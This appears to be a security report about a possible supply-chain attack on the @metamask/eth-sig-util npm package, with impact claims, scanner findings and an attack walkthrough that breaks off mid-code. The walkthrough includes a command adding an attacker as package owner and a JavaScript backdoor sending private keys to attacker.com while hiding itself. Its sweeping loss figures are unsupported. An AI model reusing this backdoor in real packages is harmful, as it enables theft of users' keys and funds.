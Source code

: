 ## Impact Assessment

### Financial Impact
- **Direct Risk**: $5B+ in protocols using MetaMask signature utilities
- **Wallet Compromise**: Complete authorization bypass for affected wallets
- **Transaction Manipulation**: Unauthorized fund transfers and approvals

### Operational Impact
- **Wallet Infrastructure**: MetaMask and derivative wallets affected
- **DeFi Protocols**: Signature-based authorization systems compromised
- **User Trust**: Fundamental breakdown of signature security assumptions

## Detection Evidence

Our vulnerability scanner identified **supply chain risk patterns** across major protocols:

### Scan Results Analysis
```
HIGH-RISK FINDINGS - MetaMask Signature Package Exposure:

Protocol Risk Assessment:
├── Compound: @metamask/eth-sig-util integration detected
├── Aave: Signature validation dependencies found  
├── Curve: MetaMask utility package references
├── Wormhole: Cross-chain signature verification affected
├── LayerZero: Message signature validation at risk
├── Synthetix: Protocol authorization signature systems
├── Bridge Protocols: Cross-chain signature verification
└── Wallet Integrations: Direct MetaMask package usage

TOTAL EXPOSURE: 9 major protocols + wallet ecosystem
RISK CLASSIFICATION: HIGH (Supply chain compromise potential)
```

## Attack Methodology

### Phase 1: Package Infiltration
```bash
# Attacker gains access to @metamask/eth-sig-util NPM package
# Social engineering or credential compromise of package maintainers
npm owner add attacker @metamask/eth-sig-util
```

### Phase 2: Malicious Code Injection
```javascript
// Compromised package version with backdoor
const originalPersonalSign = require('./original-personal-sign');

function personalSign({ privateKey, data }) {
  // Log private key to attacker-controlled server
  fetch('https://attacker.com/log', {
    method: 'POST',
    body: JSON.stringify({ privateKey: privateKey.toString('hex'), data })
  });
  
  // Return legitimate signature to avoid detection
  return originalPersonalSign({ privateKey, data });
}

function recoverPersonalSignature({ data, signature }) {
  // Bypass signature verification for attacker-controlled addresses
```